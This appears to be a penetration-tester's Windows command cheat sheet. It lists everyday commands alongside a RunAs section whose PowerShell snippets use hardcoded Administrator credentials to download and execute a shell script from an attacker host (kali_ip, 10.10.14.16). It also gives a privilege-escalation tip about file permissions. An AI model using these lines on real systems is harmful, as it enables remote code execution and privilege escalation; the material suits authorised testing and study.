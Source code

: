 ## Windows


## Copy output to clipboard

```
| clip
```

## Get computes IP Address

```
ipconfig|find "IPv4"
```

## Use Environment Variables

```
echo %OS%
echo %PROCESSOR_ARCHITECTURE%
```

## Find Files

```
dir /s <filename> # or extensions
Get-ChildItem -Path C:\ -Include *filename_wildcard* -Recurse -ErrorAction SilentlyContinue
```

## Display Environment Variables

```
set
```

## RunAs

```
# cmd
runas /savecred /user:admin C:\abcd\reverse.exe

# PowerShell Runas 1
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred

# PowerShell Runas 2
$username = "domain\Administrator"
$password = "pass123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```

## Wmi tasklist

```
Look at applications or services installed in Program Files directory is usually user installed
If so use 'icacls' to see permissions of said file and who can run said file
```